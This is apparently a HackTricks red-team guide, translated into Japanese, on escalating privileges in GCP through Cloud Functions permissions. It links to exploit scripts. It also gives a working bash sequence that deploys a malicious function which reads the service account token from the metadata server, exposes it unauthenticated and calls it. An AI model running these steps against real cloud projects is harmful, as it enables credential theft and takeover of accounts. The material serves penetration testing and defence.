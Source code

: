 # GCP - Cloudfunctions Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## cloudfunctions

Cloud Functionsに関する詳細情報:

{% content-ref url="../gcp-services/gcp-cloud-functions-enum.md" %}
[gcp-cloud-functions-enum.md](../gcp-services/gcp-cloud-functions-enum.md)
{% endcontent-ref %}

### `cloudfunctions.functions.create` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

これらの権限を持つ攻撃者は、**任意の（悪意のある）コードを持つ新しいCloud Functionを作成し、それにService Accountを割り当てることができます**。次に、メタデータからService Accountトークンを漏洩させて、その権限を昇格させます。\
関数をトリガーするためにいくつかの権限が必要な場合があります。

この方法のためのエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-call.py)と[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.create-setIamPolicy.py)にあり、事前構築された.zipファイルは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/tree/master/ExploitScripts/CloudFunctions)にあります。

### `cloudfunctions.functions.update` , `cloudfunctions.functions.sourceCodeSet`_,_ `iam.serviceAccounts.actAs`

これらの権限を持つ攻撃者は、**Functionのコードを変更し、トークンを抽出する目的で関連付けられたサービスアカウントを変更することができます**。

{% hint style="danger" %}
Cloud Functionsをデプロイするには、デフォルトのコンピュートサービスアカウントまたはイメージを構築するために使用されるサービスアカウントに対するactAs権限も必要です。
{% endhint %}

バージョン1のcloudfunctionsに対する`.call`権限や、関数をトリガーするための`role/run.invoker`ロールなどの追加の権限が必要な場合があります。
```bash
# Create new code
temp_dir=$(mktemp -d)

cat > $temp_dir/main.py <<EOF
import subprocess

def main(request):
cmd = "curl -s -f -H 'Metadata-Flavor: Google' 'http://metadata/computeMetadata/v1/instance/service-accounts/default/token'"
result = subprocess.check_output(cmd, shell=True, text=True)
return result
EOF

echo "" > $temp_dir/requirements.txt

zip -r $temp_dir/function.zip $temp_dir/main.py $temp_dir/requirements.txt

# Update code
gcloud functions deploy <cloudfunction-name> \
--runtime python312 \
--source $temp_dir \
--entry-point main \
--service-account <sa>@$PROJECT_ID.iam.gserviceaccount.com \
--trigger-http \
--allow-unauthenticated

# Get SA token calling the new function code
gcloud functions call <cloudfunction-name>
```
{% hint style="danger" %}
`Permission 'run.services.setIamPolicy' denied on resource...`というエラーが表示される場合は、`--allow-unauthenticated`パラメータを使用しており、十分な権限がないためです。
{% endhint %}

このメソッドのエクスプロイトスクリプトは[こちら](https://github.com/RhinoSecurityLabs/GCP-IAM-Privilege-Escalation/blob/master/ExploitScripts/cloudfunctions.functions.update.py)で見つけることができます。

### `cloudfunctions.functions.sourceCodeSet`

この権限を使用すると、**関数バケットにファイルをアップロードするための署名付きURLを取得できます（ただし、関数のコードは変更されず、更新する必要があります）** 

{% code overflow="wrap" %}
```bash
# Generate the URL
curl -X POST https://cloudfunctions.googleapis.com/v2/projects/{project-id}/locations/{location}/functions:generateUploadUrl \
-H "Authorization: Bearer $(gcloud auth application-default print-access-token)" \
-H "Content-Type: application/json" \
-d '{}'
```
{% endcode %}

攻撃者の視点からこの権限がどれほど有用かはあまり確信が持てませんが、知っておくのは良いことです。

### `cloudfunctions.functions.setIamPolicy` , `iam.serviceAccounts.actAs`

前述の**`.update`**または**`.create`**のいずれかの権限を自分に与えて昇格します。

### `cloudfunctions.functions.update`

**`cloudfunctions`**の権限だけでは、**`iam.serviceAccounts.actAs`**がないと関数を更新することはできません。したがって、これは有効な昇格ではありません。

### バケット書き込み権限

Cloud Functionsのコードが保存されているバケットに**書き込み権限**を持つ攻撃者は、`function_code.zip`を上書きしてコードを**任意の**コードに**変更できる**と考えるかもしれません。

{% hint style="success" %}
**しかし、これは真実ではありません。バケット内のコードを上書きしても、実行されるコードは変更されません。**
{% endhint %}

## 参考文献

* [https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/](https://rhinosecuritylabs.com/gcp/privilege-escalation-google-cloud-platform-part-1/)

{% hint style="success" %}
AWSハッキングを学び、実践する：<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image.png" alt="" data-size="line">\
GCPハッキングを学び、実践する：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricksをサポートする</summary>

* [**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)を確認してください！
* **💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**をフォローしてください。**
* **ハッキングのトリックを共有するには、[**HackTricks**](https://github.com/carlospolop/hacktricks)および[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud)のGitHubリポジトリにPRを提出してください。**

</details>
{% endhint %}

